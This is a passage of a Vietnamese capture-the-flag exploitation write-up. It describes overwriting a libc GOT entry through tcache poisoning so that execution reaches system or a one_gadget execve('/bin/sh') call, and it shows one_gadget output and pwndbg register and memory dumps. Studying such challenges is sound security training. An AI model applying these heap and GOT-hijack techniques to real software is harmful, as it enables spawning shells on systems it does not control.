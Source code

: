 ```nasm
```
Nên mình sẽ ghi đè got này tới one_gadget.
```c 
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Tất nhiên đoán trước hàm puts sẽ khó có các thanh ghi nào thoả mãn một one_gadget nên mình kiểm tra các thanh ghi trước khi jmp tới got.

Mình thử để tcachebin[0]=got-0x10 ghi đè got thành system rồi kiểm tra

```nasm
 RAX  0x0
 RBX  0x55b98b4e3620 (__libc_csu_init) ◂— endbr64 
*RCX  0x7f77d944f0a8 (*ABS*@got.plt) —▸ 0x7f77d92b5290 (system) ◂— endbr64 
*RDX  0x7f77d93eb6d0 (__strlen_avx2) ◂— endbr64 
*RDI  0x55b98b4e41b8 ◂— '1. Create \n2. Delete \n3. Add value \nAction: '
*RSI  0x130
*R8   0x1c
 R9   0x0
 R10  0x7f77d93feac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
 R11  0x246
*R12  0x55b98b4e41b8 ◂— '1. Create \n2. Delete \n3. Add value \nAction: '
 R13  0x7fffa224a120 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffa224a030 ◂— 0x0
*RSP  0x7fffa2249fe8 —▸ 0x7f77d92e7434 (puts+20) ◂— mov r13, qword ptr [rip + 0x167b0d]
*RIP  0x7f77d92b5290 (system) ◂— endbr64 
────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────
 ► 0x7f77d92b5290 <system>          endbr64 
   0x7f77d92b5294 <system+4>        test   rdi, rdi
   0x7f77d92b5297 <system+7>        je     system+16                <system+16>

```
```nasm
pwndbg> tele 0x7f77d944f098
00:0000│     0x7f77d944f098 (*ABS*@got.plt) —▸ 0x7f77d93e7950 (__memrchr_avx2) ◂— endbr64 
01:0008│     0x7f77d944f0a0 (__tunable_get_val@got.plt) ◂— 0x0
02:0010│ rcx 0x7f77d944f0a8 (*ABS*@got.plt) —▸ 0x7f77d92b5290 (system) ◂— endbr64 
03:0018│     0x7f77d944f0b0 (*ABS*@got.plt) —▸ 0x7f77d93eb0e0 (__strchr_avx2) ◂— endbr64 
04:0020│     0x7f77d944f0b8 (*ABS*@got.plt) —▸ 0x7f77d93e6960 (__strpbrk_sse42) ◂— endbr64 
05:0028│     0x7f77d944f0c0 (*ABS*@got.plt) —▸ 0x7f77d93e0890 (__wcscpy_ssse3) ◂— endbr64 
06:0030│     0x7f77d944f0c8 (*ABS*@got.plt) —▸ 0x7f77d93eead0 (__wmemset_avx2_unaligned) ◂— endbr64 
07:0038│     0x7f77d944f0d0 (*ABS*@got.plt) —▸ 0x7f77d93eead0 (__wmemset_avx2_unaligned) ◂— endbr64 
```
Để ý thanh `$rdx`, nó chính là giá trị got cũ trước khi bị ta ghi đè.
